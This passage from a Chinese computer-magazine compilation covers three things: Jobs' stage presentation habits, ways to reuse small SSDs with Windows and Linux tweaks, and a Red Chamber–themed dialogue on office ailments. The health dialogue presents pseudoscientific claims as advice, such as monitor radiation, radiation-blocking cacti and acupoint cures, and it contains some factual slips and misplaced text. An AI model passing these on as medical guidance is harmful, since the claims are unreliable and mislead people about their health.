5.  练习整场演讲，不再借助注释，仅仅使用幻灯片作为提示。只要执行了这5个步骤，你就为每张幻灯片排练了4次，远远超过了演讲者的平均准备时间。

## 4. 讲台与灯光的布置

不管是Macworld或WWDC，舞台的布置几乎都一样，相当简单素雅。讲台相当长，中间有一个很大的屏幕。屏幕后方的布帘横跨整个讲台。讲台不使用聚光灯，而使用比较柔和的光线。灯光随时视情况调整明暗与色调，最常用的颜色是蓝色调，因为蓝色具有专业与科技的感觉，偶而会使用暖色系的红棕色。

通常讲台的一边会放置讲桌，可以让讲师放置笔记本计算机、笔记、矿泉水。由于乔布斯不会死板地站在讲桌后面，所以你在乔布斯的讲场上看不到讲桌，而是一般高度的桌椅，上面摆设一部苹果桌上型计算机和矿泉水。当需要操作计算机以展示软件，或者需要喝水时，乔布斯会到此桌椅处，否则他通常站在讲台中央。

比较特别的是，桌椅位于讲台左侧，且桌椅的角度安排，使得乔布斯背对舞台屏幕的正中央（而不是面对舞台屏幕的正中央），这是有目的的。这个角度，只要稍微侧身向左就可以面对观众，且由于乔布斯是右撇子，使用右手操作计算机鼠标，所以当他侧身向左时不会被右手臂挡住。

## 5. 穿着以简单为主，语调、肢体语言才是重点

乔布斯的穿着相当固定，都是中腰中直筒蓝色牛仔裤，深色上衣，脚踩休闲运动鞋。乔布斯可以有他自己的穿衣风格，但一般来说，讲师还是穿衬衫会比较适当。只要掌握简单整齐的原则，就不会出错。

乔布斯使用隐形麦克风，不需手持麦克风，而且在他右手掌心的遥控器相当轻巧，所以双手可以尽情地做出肢体语言。当他说：“I apologize”时拱手做揖；两只手做出双引号的手势表示“所谓的”；类似吹口哨的声音表示“松一口气”；双手合十表示“感谢”……他的肢体语言不会让人觉得僵硬，也不会让人觉得是废话。什么是废话肢体语言？举例来说，有些人提到“一张纸”或“一张表格”时，会用双手食指画出方形，这就是废话肢体语言。

在语调、速度上，乔布斯讲话清晰易懂，并不会因为情绪的起伏而失控越讲越快。这一点在实际中并不容易做到，要多加练习。

## 结语

乔布斯或许很难被效仿和超越，但是他演讲中的诸多细节仍然给我们展示了很好的技巧。这些技巧对于你同样适用。关注细节，掌握技巧，你会发现舞台上不一样的你！

最后，列出本次专题所参考的图书，祝各位也能做出“惊人”的演示！

- 《乔布斯的魔力演讲》
- 《让你的PPT会说话》
- 《演说之禅——职场必知的幻灯片秘技》

策划/《电脑爱好者》编辑部
监制/Justdo
撰稿/欧芹德 李锋民

## ——小容量固态硬盘优化应用十例

如今固态硬盘也不算什么新鲜事物了，很多玩家手中都会有一块容量不大的固态硬盘。不过自从Windows 7开始普及之后，C盘越来越大，让那些小容量固态硬盘变得有些鸡肋，落得个闲置的下场。其实，只要多花点心思，小容量固态硬盘也有很多新玩法。今天我们要讨论的话题就是怎么将这些小容量固态硬盘充分利用起来，让它不再鸡肋！

从中我们可以看出，现在传统硬盘真的是白菜价了，2TB的“海量”存储空间只需五百多元；V+100是金士顿的较高端固态硬盘型号，容量最小的96GB版价格为999元，普通玩家还能接受，但容量有些尴尬；128GB版本的V+100只增加了32GB容量，价格相比96GB版却翻倍；至于512GB的就真是天价了，9499元的价格实在离谱。

## Windows 7让小容量固态硬盘变得尴尬

由于制造成本的原因，大容量固态硬盘在短时间内都难以得到普及。先让我们看看下边这个表格：

| 型号 | 希捷ST2000DL003 | 金士顿V+100 | 金士顿V+100 | 金士顿V+100 |
| :--- | :--- | :--- | :--- | :--- |
| 类型 | 5900转硬盘 | 固态硬盘 | 固态硬盘 | 固态硬盘 |
| 容量 | 2TB | 96GB | 128GB | 512GB |
| 价格 | 529元 | 999元 | 1888元 | 9499元 |

实际上绝大多数玩家手中的固态硬盘都是100GB以下的小容量版本，从经验来看，大多数拥有固态硬盘的玩家都是采用固态硬盘加传统硬盘的方式，在固态硬盘中安装操作系统而在传统硬盘中存放其他文件资料。而这些固态硬盘多为32GB~64GB的小容量型号，在Windows XP时代还能堪用，但是当Windows 7来临之后就会发现这点容量连安装操作系统和常用软件都颇为捉襟见肘。此时玩家们只好将其取出机箱闲置起来。其实，我们还有很多有意思的玩法，可以让这些闲置小容量固态硬盘充分发挥余热。

## 你必须知道这些概念

固态硬盘早已为大家熟知，我们没有必要普及它的基本定义，不过也有一些概念是你必须要知道的。

一块固态硬盘的性能主要由闪存芯片、闪存控制器、接口带宽和容量大小这四个因素决定，具体如下：

## SLC和MLC的区别

固态硬盘使用NAND闪存芯片作为存储介质，而NAND闪存芯片又分为SLC和MLC两大类。SLC为Single-level cell（单阶存储单元）的缩写，每个存储单元单内存写入1个信息位，而MLC为Multi-level cell（多电平单元）的缩写，可以在每个存储单元内存储2个以上的信息位。

SLC的读写速度快、寿命长，但芯片容量小，制成的固态硬盘也较小；MLC的读写速度要比SLC慢不少，但存储容量大且相对便宜是最大的优势。实际上绝大多数我们买得到的民用固态硬盘都是使用的MLC闪存芯片，SLC多用于工业用途。

## 闪存控制器决定档次

拆开固态硬盘，我们可以看到除了闪存芯片还有一块极为重要的闪存控制器芯片，它有时比闪存芯片更加重要。闪存控制器的算法直接影响固态硬盘的读写速度和其他一些性能，很多时候固态硬盘就是根据闪存控制器的不同来划分的档次。

## 接口带宽可能成瓶颈

多数固态硬盘和传统硬盘使用一样的I/O接口。由于固态硬盘品牌和种类很杂，购买时也要留心。第一代SATA接口的带宽为1.5Gbps，约合187MB/s，对高性能固态硬盘会形成瓶颈；第二代和第三代SATA接口带宽分别为3Gbps和6Gbps，基本不会对目前的民用级固态硬盘造成瓶颈。

除了固态硬盘上的接口，还要注意电脑上的接口，一些老笔记本和主板提供的是SATA一代接口，也会造成瓶颈。

## 容量越大速度越快

与传统硬盘不同的是，随着容量的增大，固态硬盘的读写速度也会增加。这是因为大容量的固态硬盘内部闪存芯片颗粒数会更多，形成更多的通道数；例如八颗闪存芯片就会构成八通道，此时读写速度（主要是写入速度）会比较少的通道数更快。

附表：Intel 320系列固态硬盘容量与读写速度关系

| 容量 | 持续读取速率 | 持续写入速率 |
|---|---|---|
| 40GB | 200MB/s | 45MB/s |
| 80GB | 270MB/s | 90MB/s |
| 120GB |  | 130MB/s |
| 160GB |  | 165MB/s |
| 300GB |  | 205MB/s |
| 600GB |  | 220MB/s |

## 扩展知识：Windows 7的TRIM功能

在Windows 7中如果你使用固态硬盘，系统会自动禁用磁盘碎片整理功能，以免影响固态硬盘的寿命。除了这点，固态硬盘还有个与传统硬盘不一样的地方——使用久了之后性能会下降，而Windows 7的TRIM功能就是为此而来的。

固态硬盘使用久了之后性能下降的原因是其中没有来得及擦除的闪存区块越来越多，但是频繁擦写又会影响闪存寿命，怎么办？TRIM就是一种智能化的功能，它能根据NTFS文件系统判断擦除闪存区块的时机，该擦的时候擦，不该擦的时候待机。这样就能使固态硬盘的性能保持在较高水平。

## 形形色色的固态硬盘

不像传统硬盘那样，固态硬盘是可以做成各种不同形状和大小的。大多数采用SATA接口的固态硬盘会设计成与传统硬盘差不多的形状，当然都会更薄更小巧一点。

不过拆开以后，你会发现也有一些门道。正常的品牌固态硬盘都会采用电路板正反面焊上数个闪存芯片的样式，但也存在着一些“山寨”固态硬盘——电路板上有数个SD插槽，上面插着几个SD卡充数。虽然在读写速度上与正常固态硬盘区别不大，但是SD插槽一旦松动，就会造成无可挽回的数据丢失。

在工业用途中还存在着一种叫DOM（Disk On Module）的东西，可以看做固态硬盘的一种。它的结构和体积较为简单，容量也不大（多为32GB以下），不过价格便宜且普遍使用SLC芯片。在淘宝网可以搜到不少。

## 先玩硬的 让笔记本也能使用双硬盘

对于容量较小的固态硬盘，最好是采用固态硬盘+传统硬盘的双硬盘方式。但对笔记本来说，绝大多数都只有一个硬盘位。怎么办呢？

首先想到的当然是利用光驱的位置了。如果你的光驱是可更换的，而且不常用，那就可以买个硬盘扩展架将其替换，为笔记本增加一个硬盘位。一般情况下，原厂的硬盘扩展架价格比较昂贵（起码好几百元），但做工、质量、数据传输速率等均能得到很好的保证，不过淘宝上也能找到很多价格低廉的替代品，推荐一试。

多数笔记本的原硬盘位都会有防震措施，更适合传统硬盘。所以在安排位置时固态硬盘（不怕震动）就只好乖乖躺在光驱的位置了。有些笔记本（例如笔者的Thinkpad T61）的光驱数据接口是SATA 1.5Gbps的，会对高性能固态硬盘造成瓶颈，需要注意。不过考虑到今天讨论的是较低端的小容量固态硬盘，不管它也罢。

## IDE 接口老笔记本焕发第二春

你家里有没有闲置已久的老笔记本？把它和闲置小容量固态硬盘凑一起吧，立即就能焕发第二春。根据笔者的测试，即便是最低端的固态硬盘装在老笔记本上，也能让Windows XP的启动时间大大缩短——这是因为固态硬盘的随机响应性能比传统硬盘强很多。换上固态硬盘后，老笔记本的系统反应和运行常用软件的速度都会大幅提升，安装Windows XP系统也不会嫌容量小，再加上抗震抗摔的特点，留给老人小孩使用非常合适。

很多老笔记本提供的都是IDE硬盘接口，而现有的固态硬盘多为SATA接口。怎么办？答案也很简单，我们可以在淘宝上花20元左右，购买一个笔记本用的SATA转IDE转接卡，就可以享受固态硬盘带来的性能提升了。

不过操作时要注意转接卡的尺寸，因为固态硬盘加上转接卡后会超过2.5英寸硬盘原有的尺寸，所以有些硬盘仓的空间不够。这时就可以发挥DIY的精神，拆掉固态硬盘的外壳，或者在不破坏电路的情况下将PCB底板多余的部分裁剪掉来节约空间。

## 省吃俭用安装 Windows 7

将操作系统和常用软件直接安装到固态硬盘上，提升系统运行性能，这是大家第一反应就想到的方法。不过在Windows XP系统下并不能充分发挥固态硬盘的特性，所以我们推荐使用针对固态硬盘优化并带有TRIM功能的Windows 7系统。用小容量固态硬盘安装Windows 7实在有些紧张，不过通过我们下面介绍的一些经验，也能让Windows 7顺利在其中安家。

在笔者的Thinkpad T410上，安装了Windows 7 SP1简体中文旗舰版及显卡驱动之后，磁盘空间占用21.6GB，需要进行一番瘦身。这里推荐首先使用一款叫Spacesniffer的免费软件来查看磁盘空间使用情况，可以让你知道具体哪些程序占据了多大的空间。

### 1.关闭休眠、减少虚拟内存、关闭系统还原

安装完系统，C盘有两个巨大的文件，一个5.8GB的hiberfil.sys，还有一个7.8GB的pagefile.sys文件。hiberfil.sys是休眠文件，相当于把物理内存做了个镜像塞在硬盘里，必须删掉，以管理员身份在命令提示符中输入"powercfg -h off"即可移除。

pagefile.sys是虚拟内存，很多电脑已经有4GB甚至更多的物理内存，我们可以直接将其禁用。方法是：在“计算机”上按右键选择“属性”-“高级系统设置”-“性能设置”-“高级”，点击“虚拟内存更改”按钮，取消“自动管理分页文件大小”，选择“无分页文件”，最后点击“设置”，“确定”就可以了。

系统还原也会占用很多磁盘空间，建议关掉。在“计算机”上按右键选择“属性”，然后选择“系统保护”，“配置”，“关闭系统保护”，最后确定即可。

### 2.使用工具，轻松给系统减肥

使用魔方清理大师、金山卫士之类的工具软件，简单又安全地对系统进行减肥。因为两者各有一些对方未能清理到的地方，所以可以结合使用。此步骤可节约800多MB磁盘空间。

### 3.日常软件注意事项

QQ的聊天记录和聊天表情图片会逐渐增大，建议将其保存位置移到机械硬盘中，或者定期清理。Foxmail之类的邮件软件也是同样道理，建议不要安装在C盘。

其他日常软件最好也要使用轻量级的。例如金山的WPS Office 2010只占用190MB硬盘空间，但微软Office则要占据2GB以上的空间；暴风影音2011安装好之后体积达160多MB，而同样全能的射手播放器只有30MB。

## 使用微软官方简化的 Windows Thin PC

微软刚推出的Windows Thin PC就是Windows 7的官方精简版。由于精简了许多组件和服务，更适合硬件配置较低的电脑。不过目前仅提供了32位的版本。全新安装之后Windows Thin PC仅占有2.8GB的硬盘空间，非常适合小容量固态硬盘。其官方下载地址为：http://tinyurl.com/3g2c8zm。

使用方法如下：

1.  安装过程和Windows7一样，但安装速度比Windows7快一倍。安装之后需要下载简体中文语言包：http://tinyurl.com/3nh5zur，语言包的文件名为lp.cab，将其放到C盘根目录下。
2.  然后以管理员权限运行CMD，输入命令：dism /online /add-package /packagepath:C:\lp.cab，安装语言包。
3.  重启电脑之后，在“Control Panel”-“Region and Language”-“Keyboards and Languages”-“Display language”中，选择“中文(简体)”即可。当然，要记得将“区域和语言”中的“格式”、“位置”都修改成中国。
4.  Windows Thin PC的兼容性不错，因为缺少Windows Defender组件，所以目前除了微软的免费杀毒软件MSE之外不能安装外，其他第三方杀毒软件不受影响。

## 智能响应技术加速系统性能

以前我们介绍过Intel Z68主板的Smart Response智能响应技术，固态硬盘可当做普通硬盘的缓存来使用，大大加强了小文件的随机访问能力和多任务并发处理能力，加快了Windows及多数大型软件的启动速度，也算是对闲置小容量硬盘的废物利用。

启用SRT的方法有一系列的步骤，连接好固态硬盘和传统硬盘之后，首先在BIOS中打开Intel SATA的RAID模式，然后在机械硬盘上重新安装操作系统，并安装好驱动程序和Intel RST管理程序，最后打开Intel RST设置将其启用。具体方法可参照本刊第15期相关文章，这里仅仅介绍几点需要注意的地方：

1.  将固态硬盘和机械硬盘安装到Intel PCH SATA接口上，目前SRT不支持第三方芯片提供的SATA接口。
2.  即便只有一块机械硬盘，首次安装操作系统时，建议也在CMOS设置中打开Intel SATA的RAID模式。我们测试机用的主板，在“Integrated Peripherals”中，将“eXtreme Hard Drive (XHD)”改为“enabled”，这样做的好处是一旦有了闲置固态硬盘想启用SRT时，不需要重新安装操作系统。
3.  因为SRT是利用固态硬盘做缓存，所以重复同样的操作才会体验到速度的提高。也就是说第一次打开某个程序并不能体会到速度加快，但重复打开它几次之后就会有明显的提升。

## 非 Z68 主板用户也能享受系统加速

Intel SRT目前仅能在Z68芯片组主板上实现，具有很大的局限性。那么其他主板用户就不能享用这种加速功能了吗？在这里我们介绍一款叫做FancyCache的软件（硬盘版下载：http://tinyurl.com/3dgb466，分区版下载：http://tinyurl.com/3gpkhse），有了它，非Z68芯片组的电脑（包括笔记本），也能创建自己的Hybrid混合硬盘。

FancyCache的原理是将系统内存或闪存（包括固态硬盘，支持TRIM指令）虚拟成硬盘缓存。它把从机械硬盘中读取的数据存入内存或闪存，使系统在下次访问该数据时可以很快从内存读取，避免再次读取速度较慢的机械硬盘，从而提升系统性能。从缓存读取的数据量越大，系统性能提升的程度也越高。它有硬盘版和分区版两款，前者对整个硬盘设置缓存，而后者可对单独分区设置缓存。

在笔者的Thinkpad T410上使用80GB的SATA硬盘安装Windows 7旗舰版，然后将固态硬盘当做第二块硬盘。打开FancyCache，设置1GB的物理内存（最小128MB）当做一级缓存，并设置10GB的固态硬盘空间（最小256MB）作为二级缓存——物理内存的读写性能远高于固态硬盘，但固态硬盘读写性能仍要比普通机械硬盘好。为了提升写入性能，我们打开“延时写入”设置（注意，类似SRT的“最大模式”，更多地提升性能，但增加了掉电时丢失数据的风险）。右表是我们对使用FancyCache前后系统性能的对比测试，可见它能大幅提高整机的磁盘性能，甚至性能甚至赶超纯固态硬盘。

## 特别话题

## 《电脑爱好者》·合订本

### 用固态硬盘体验 Chromium OS

Google的Chrome系统笔记本宣传了挺久也不见大批量上市，真让人等得不耐烦。不过好在Chrome系统有个普通用户可以免费下载的版本Chromium。它可以安装在U盘中，直接插在电脑USB口上启动，让我们可以抢先体验一番这个鼎鼎大名的云操作系统。

不过U盘经常插拔实在麻烦，如果你的笔记本中有两个硬盘位，其中一个就可以用固态硬盘安装Chromium系统，与Windows切换着使用也挺有趣。当你在机场候机厅等地方，不想进入Windows而只是想快速开机上上网时，就可以进入Chromium系统——只需几秒钟就能进入系统，非常方便。

| 使用前 | 使用后 (L1=1024MB) | 使用后 (L1=128MB) | 固态硬盘作系统盘 |
|--- | --- | --- | --- |
| 52秒 | 33秒 | 31秒 | 16秒 |
| 57 IOPS | 46403 IOPS | 2196 IOPS | 2295 IOPS |
| 1176 | 5529 | 4154 | 3775 |

安装方法如下：

1.  首先在 http://tinyurl.com/265ojpc 这个页面查看Chromium的兼容性列表。基本上所有基于ATOM的上网本都被完美地支持，而笔记本和台式机则被部分支持（集成显卡笔记本支持得较多）。笔者使用的是一台闲置的Thinkpad R60进行安装，兼容性很好。
2.  然后进入 http://tinyurl.com/3v5ky2t 下载由 hexxeh 编译好的Chromium OS，选择USB版，解压之后会得到一个img映像文件。
3.  准备好一个2GB以上的U盘，然后在 http://tinyurl.com/3euq6g6 下载免费的 Image Writer for Windows，用它将img映像写入U盘。
4.  取下笔记本中的机械硬盘，使电脑中只存在一个固态硬盘。用刚才的U盘启动笔记本，登录之后，按下 Ctrl+Alt+T 打开crosh终端，在 crosh> 提示符下输入 install，然后输入root用户口令facepunch，即可将Chromium OS安装至笔记本的硬盘上（注意：硬盘中所有数据会被删除，请事先做好备份工作）。安装速度非常快，不到3分钟。
5.  提示安装结束后关机，拔掉U盘，然后重新开机，设置从Chromium OS所在的那块固态硬盘启动。如果想进Windows，设置从Windows所在的硬盘启动即可。很多笔记本在刚开机时可以通过快捷键切换启动磁盘（多为F12键）。

在笔者这台老旧的R60上，如果使用SATA机械硬盘，启动系统的速度是21秒（从开机自检画面结束到用户登录界面）；而使用金士顿SSD后启动系统的速度只要6秒！基本上做到了即开即用。

### 体验 Linux 操作系统

现在很多种类的Linux推出新版的速度比Windows要快得多（例如Ubuntu），华丽新颖的界面让玩家们忍不住想装上玩玩。

不过想让Linux系统和原先硬盘上的Windows共存，有一些麻烦的地方。首先是安装的时候，Linux的硬盘分区思路与Windows完全不同，对普通玩家来说很难理解，笔者就发生过好几次操作失误使得Windows分区丢失的“惨剧”。其次是卸载的时候，安装Linux之后虽然可以自动生成双系统启动菜单，但如果想完全删掉Liunx却不那么容易，需要一些命令行知识。如果你直接格式化掉Linux分区，会导致Windows也没法启动了。

使用双硬盘就要简单多了，安装和卸载Linux都在另一块硬盘上，不用担心影响Windows分区。使用闲置的小硬盘体验Linux又是一项废物利用的好事。

### 当做系统备份盘

闲置小容量固态硬盘当做系统备份盘也是个不错的选择。

系统备份分为全盘备份和增量备份两种。全盘备份可以用我们最熟悉的Ghost软件，在制作备份文件时将其保存位置选择在固态硬盘上，需要恢复时再启动Ghost选择固态硬盘保存的备份文件，平时不用管它。

增量备份则是第一次全盘备份，以后备份只是加入变化后的文件，在恢复系统时可以具体选择某个时间点的某次备份，类似Windows的系统还原功能。增量备份我们推荐使用的软件是Acronis True Image Home，它的备份/还原速度极快，完全图形化的界面也比Ghost更加友好。为了防止备份文件丢失，它还可以将保存备份文件的分区隐藏起来，比很多笔记本厂商自己开发的备份/还原系统还更完善。

## 做好维护工作 保持固态硬盘高性能

SSD虽然性能强悍，但除了容量和价格的缺点外，还存在闪存寿命及长时间使用后性能下降的问题。不过大家不必过于担心，因为这是SSD制造商必须考虑的问题，目前各厂商也采用了不同的技术和算法来改善。目前的流行操作系统如Windows 7、Linux等对SSD的支持比较完善，不过在日常使用中注意一些基本方法对延长SSD寿命还是有好处的。

### 在Windows系统下，请注意以下几点：

1.  尽量减少对SSD的频繁写操作，因为影响SSD寿命的罪魁祸首是频繁的写入操作。所以不要对SSD进行磁盘碎片整理（实际上Windows7会停止在SSD驱动器上的自动碎片整理计划并关闭磁盘索引服务）。不要经常用那些磁盘测试工具对SSD进行测试，也尽量不要将SSD当做迅雷、BT、电驴的下载盘等用途。
2.  对于Intel SSD，可以使用 Intel SSD Toolbox（下载：http://tinyurl.com/yj6ybkg）来优化管理；其他品牌的SSD，也可用一款叫 SSD Tweaker（下载：http://tinyurl.com/4ygbwsv）的免费软件来优化SSD。
3.  使用支持TRIM的SSD时，在清空回收站之前一定要三思。正是因为TRIM指令的存在，用户删除数据后SSD硬盘会彻底清空那个区块，而不是像传统机械硬盘那样只删除索引而保留数据，所以也无法像传统机械硬盘那样用数据恢复软件轻松地来恢复误删除的文件。
4.  专业数据恢复公司提供的固态硬盘数据恢复，仅限电路板或控制芯片发生故障，对于误删文件能够恢复的几率很小。

### 在linux下，可以这样做：

1.  内核在2.6.33之上的linux版本都支持类似Windows 7的TRIM机制：discard。和在SSD上安装Windows7默认开启TRIM不同，linux发行版默认是不打开discard功能的，所以需要手工打开它。首先需要保证使用的是ext4文件系统，然后在mount文件系统时使用discard参数，编辑/etc/fstab，加入discard选项即可。
2.  减少系统对SSD操作的次数来延长SSD寿命，在/etc/fstab中加入两个选项 noatime,nodiratime。
3.  可以将linux系统和应用程序缓存 /tmp 和 /var/tmp 文件系统挂载到内存当中，避免对SSD的频繁操作。方法是在 /etc/fstab 的末尾加上下面两行：
    tmpfs /tmp tmpfs defaults,noatime,mode=1777 0 0
    tmpfs /var/tmp tmpfs defaults,noatime,mode=1777 0 0
4.  将IO算法修改成noop，不让linux系统而是让SSD本身去处理。在/etc/rc.local文件中的exit 0行之上，加入以下一行（注意：sda是/文件系统所在的设备，请根据你的实际情况来修改）：
    echo noop > /sys/block/sda/queue/scheduler

本次专题中，我们专门针对小容量固态硬盘的特点设计了一些特色的应用。其实根据每个人不同的使用习惯，利用固态硬盘响应速度快、省电静音、不怕震动等特点，你也可以想出自己的特色应用来。

策划/老范
撰文/文洁、刘延军

## 红楼诊话

穿过时空隧道，红楼一众美女来到21世纪的中国，当了一回办公新人类。

在凤姐的策划下，大观园的姐妹们成立了一家红楼文化传播公司，在市中心租下一栋高档的红楼（写字楼），自然也用上了电脑。

因为宝钗博古通今，熟读《黄帝内经》，精通针灸之术，被聘为公司的健康顾问。湘云是业余中医爱好者，她们俩经常一起聊养生话题，这天，她们聊到了电脑病。

### 电脑，让我欢喜让我忧

刚接触电脑，小姐丫鬟们还觉得挺新鲜；但时间一长，她们就开始叫起苦来。电脑一方面为她们的工作、生活带来方便，另一方面却也带来她们的烦恼。

各种电脑病，正悄然逼近她们，威胁着她们的健康。

湘云：宝姐姐，现在电脑病越来越多，公司很多人都患上了什么干眼症、肩周炎、鼠标手……中医那么厉害，当年扁鹊先生一招“针灸百会”，就让虢国的太子起死回生。那么，对于电脑病，中医有什么高招没有？

### 小故事：扁鹊用针灸救太子

据《史记》记载，扁鹊游医到虢国，刚好虢国的太子“死”了，举国悲痛。扁鹊到太子跟前一探，尚有鼻息，就让他的弟子针灸太子的百会穴。百会穴古称“三阳五会”，在我们人体中，处于至高之处。针灸后，太子就苏醒过来。所以老百姓都说，扁鹊能够起死回生。

宝钗：云妹妹，中医的食疗、针灸等方法，确实能够有效地缓解、防治电脑病，但也不能完全依赖它。日常生活中，方方面面都要注意，效果才更好。

### 干眼症

凤姐是公司的首席执行官兼财务总监，喜欢数据分析，每天都要看海量的报表。那密密麻麻的数字，看得人头晕眼花。偏偏她这个人争强好胜，天生操心的命，就不愿意休息。一年下来，她发现自己的眼睛干涩、怕光，有时还刺痛、充血，一双丹凤眼早已失去昔日的光彩。其实，凤姐已患上一种高发的电脑病——干眼症。

宝钗：《素问·宣明五气篇》上说“久视伤血”，是说人长时间用眼看东西，会导致人体“血”的损伤。肝主血，“伤血”也就“伤了肝”，而“肝开窍于目”，肝不好，眼睛也不会好。

湘云：那辐射下的“久视”就更伤了！可怜我们，每天都在受着辐射与“久视”的双重伤害。

宝钗：对！虽然肉眼看不出来，但其实显示器上的画面是一直在闪烁的。这对眼睛是极伤的。不是有句老话“不闪的才是健康的”吗？但电脑屏幕不可能不闪的。

湘云：讨厌的中央空调！那有什么办法缓解眼疾呢？

宝钗：首先，要避免“久视”，时常对着电脑眨眨眼“放放电”；另外，一般工作上50分钟，就要休息10分钟，此时可闭目养神，或远看窗外景观。

湘云：这破写字楼设计真差劲！公司里除了总监级以上领导，都没有窗的。看来，普通员工得在电脑边放点绿色植物了。累了，就看一看。像仙人球和绿萝就不错，容易打理，既能绿化，又能净化空气。据说仙人掌还能防辐射。

宝钗：其次，显示器摆放位置也很重要。尽量别对着屏幕的背面和两侧，因为电脑辐射最强的是背面，其次为左右两侧。屏幕的正面反而辐射最弱。还有，在显示屏上安块电脑专用滤色板也可减轻一点辐射。

湘云：网上还流传着一个方法，将电脑屏幕背景色由刺眼的白色改为淡绿色。据说是眼科专家设计的，我试了一下，倒也感觉舒服了一些。

## 改变屏幕背景色方法：

1.  在桌面右击鼠标，单击“属性→外观→高级→项目→窗口→颜色1(L)→其它”，把色调设为85，饱和度设为90，亮度设为205，单击“添加到自定义颜色→确定→确定→确定”。
2.  上面的操作是把窗口背景设成了绿色，现在再来把IE的网页背景也变成绿色：打开IE，单击“工具→Internet选项→常规→辅助功能”，选中“不使用网页中指定的颜色”，然后单击“确定→确定”。
此时，屏幕的背景色就变成淡淡的绿色，比原来柔和多了。

宝钗：此外，还可以多吃一些明目的食物，比如胡萝卜、枸杞叶、喝点黑芝麻梗米粥、枸杞米粥可以补肝肾、益双目；绿茶抗辐射，菊花茶清肝明目，枸杞茶富含胡萝卜素，上下午各来一杯，也是不错的选择。特别推荐一款“醋泡黑豆”。

湘云：这个方子我在网上看过呢，我和另两位同事都试了，每天当零食吃几勺黑豆，效果不错。一个月下来，觉得眼睛明亮了不少呢。做法也不复杂，有兴趣可以百度一下“醋泡黑豆”。

宝钗：中医按摩对防治眼疾也非常有效。按摩时，根据“穴位所在，主治所在”的局部选穴原则，首选眼睛周围的穴位，比如攒竹穴、睛明穴、四白穴、太阳穴，再刮刮上眼眶。

湘云：怎么这么熟悉？这不是眼保健操用的穴位吗？

宝钗：对，新版眼保健操还加了按揉风池穴和揉捏耳垂。风池穴也是治疗眼病的大穴；而人体很多器官在耳朵上都有对应的穴位，眼睛对应的穴位就在耳垂上。眼保健操是很好的护眼措施，其实上下眼保健操各花五分钟做一做，对缓解眼疲劳、防治眼疾非常有好处，有利于减轻眼部皱纹呢。只是可惜现在很少人做了。

湘云：那还不容易，让晴雯姐姐（前台）每天上下班到点就播放一下眼保健操的音乐，让姐妹们停下来做一做就行了嘛。

宝钗：呵，可以向凤姐姐申请一下。其次，根据“经络所过，主治所及”的远部取穴原则，可以选胆经上的穴位，如光明穴。因为胆经经过眼部。

湘云：这光明穴，一听名字就知道是治眼病的。那么，肝开窍于目，应该也可以选肝经上的原穴—太冲穴吧？

宝钗：对，《黄帝内经》说：“五脏六腑有疾者，皆取其原”，所以太冲穴在肝经中的地位非常重要。这些穴位，每天按摩几分钟，长期坚持，必有效果。
还有另外一点，是一般人容易忽视的，就是生气也会伤眼睛。《内经》说：“怒伤肝”，而“肝开窍于目”。所以，老看这个不顺眼那个不顺眼，爱发火的人，通常眼睛也不好。

湘云：还有这一说呀？看来，要眼睛好，还得改改坏脾气哦。
我又想起太冲穴来，为什么它可保护肝？太冲太冲，火气太冲的人，就要通过太冲穴把火排出去，以免“怒伤肝”。

温馨提示：
因篇幅所限，本文就不对每个穴位一一展开做详细介绍了。有兴趣的朋友，可百度一下“XX穴”，一般都能查到该穴位的穴位图、位置、所属经络、主治病症及治病原理等详细信息。

## 小知识：取穴基本方法

1.  “穴位所在，主治所在”局部取穴，身体某部位有问题，首选它附近的穴位治疗。如眼睛不舒服，就可选眼睛附近的穴位。
2.  “经络所过，主治所及”远部取穴，就是说，经络经过的地方发生的疾病，可以通过刺激该条经络上的穴位来治疗，比如大肠经经过咽喉，那么，咽喉肿痛的时候，就可以选大肠经上的穴位，比如合谷穴。
3.  此外，还有辨证取穴、经验取穴等，这些稍微复杂一点，有兴趣的朋友，可以自己深入学习一下。

## 肩颈病

香菱是公司的打字员，每天的工作，就是架着胳膊，不停地敲打键盘。偏偏她又是个任劳任怨，胆小怕事的性子，夏金桂主管在背后盯着她，她也不敢多休息。最近她经常觉得肩颈疼痛，脖子后面有几根筋总是紧紧的，有时连头都不敢转，还有眩晕症状。她已患上典型的肩颈病。

宝钗：《素问·宣明五气篇》上说“久坐伤肉”，久坐不动，气血不畅，会使肌肉僵硬、疼痛麻木。加上办公一族容易“坐不正，站不直”，因此就更容易因久坐而引发颈椎病、肩周炎。肩颈部的肌肉，长时间保持一个姿势容易绷紧并变得僵硬，影响到椎动脉对头部的供血，引起头晕。
“久坐”的害处不只这些，长时间在电脑前坐着，保持固定姿势，还容易造成腰痛、腹胀等。

湘云：嗯，我们的肌肉就是被“坐僵”了。

宝钗：所以呢，首先要每隔50分钟休息上10分钟，起来活动活动肩膀，转动转动脖子。推荐一个简单的方法，用头做“永”字操，它简单易学，在座位上就可以做。长期坚持可起到改善头部血液循环、舒筋养骨、通经活络的作用，有利于预防颈椎病和对病患后的疗效巩固。

## 方法：

- 身站立挺直，两足分开与肩同宽，以颈为腕，以头为笔，按“永”字笔画顺序写楷书，每写完一字算一次，一次可做20—30次（渐渐增加次数），用上述站立姿势再做耸肩运动，每次做30次，或经常用双手拍打颈部肌肉，边拍打边活动颈椎。

湘云：嗯，这个“永”字操我也经常做，做完后肩和脖子都蛮舒服的。我得提醒一下香菱，为了健康，管她夏金桂主管高不高兴呢：该休息时，一定要休息，怕什么，大不了申请调部门呗！

宝钗（微微一笑）：再次，要注意坐姿正确；还可以考虑用那种能够升降的电脑工作台，以变换姿势，避免久坐，以减轻伤害。关于这些，《电脑爱好者》2011年第6期《E族养生经之二》有详细的介绍，有兴趣的朋友可以了解一下。

湘云：用中医穴位治疗的话，取什么穴比较好？

宝钗：按“穴位所在，主治所在”的局部取穴，可以取肩井穴、肩井穴；按“经络所过，主治所及”的远部取穴，可以取手三里穴，因为小肠经经过肩部，而手三里穴是小肠经上的穴位，可以按摩，也可以用艾灸的方法。

湘云：呵呵，艾灸真是不错的保健方法，而且易上手，最适合我们这种业余的。它既不像针刺那样，对取穴的准确度要求那么高；又不像按摩那样，效果好坏还与手法有关。我还用艾灸治好了自己多年腹胀的毛病呢！

宝钗：“灸”字由“久”和“火”组成，就是长时间用火烤的意思；而艾灸，就是点燃艾条来施灸，相对于针刺，艾灸更简单易行，没有任何医学基础的人也可以很快学会，而且不用担心有什么危险，但用它来保健却非常有效，古语有云“家有三年艾，郎中不用来”。

## 小故事：艾灸足三里得长寿

